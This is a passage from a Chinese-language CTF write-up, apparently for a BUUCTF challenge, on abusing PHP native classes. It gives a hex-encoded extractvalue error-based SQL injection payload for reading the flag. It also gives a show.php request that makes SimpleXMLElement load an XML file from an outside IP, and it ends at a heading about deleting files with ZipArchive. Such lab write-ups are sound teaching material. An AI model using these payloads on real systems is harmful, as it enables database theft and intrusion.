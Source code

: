 这儿我们上传的文件为4.txt，然后我们上传的十六进制为：

```
0x277c7c6578747261637476616c756528312c636f6e63617428307837652c2873656c656374207265766572736528666c6167292066726f6d20666c6167292c3078376529297c7c27
解码为：
'||extractvalue(1,concat(0x7e,(select reverse(flag) from flag),0x7e))||'
```

我这儿加了一个`reverse`，是因为buu上面的flag过长，不能一下报错读取完，所以我分两次读取~~

![image-20231102150304990](assets/image-20231102150304990-16989085861541.png)

![image-20231102150325713](assets/image-20231102150325713-16989086070452.png)

```
/show.php?module=SimpleXMLElement&args[]=http://174.0.159.143/obj.xml&args[]=2&args[]=true
```

**总结**

我们上传文件的时候，如果已经上传了1.txt，如果还想注入下一个sql语句，我们就得更换文件名，注意将e.xml中的上传文件名也换过来~~



### 6、ZipArchive 类来删除文件

 条件：**php 5.20**  
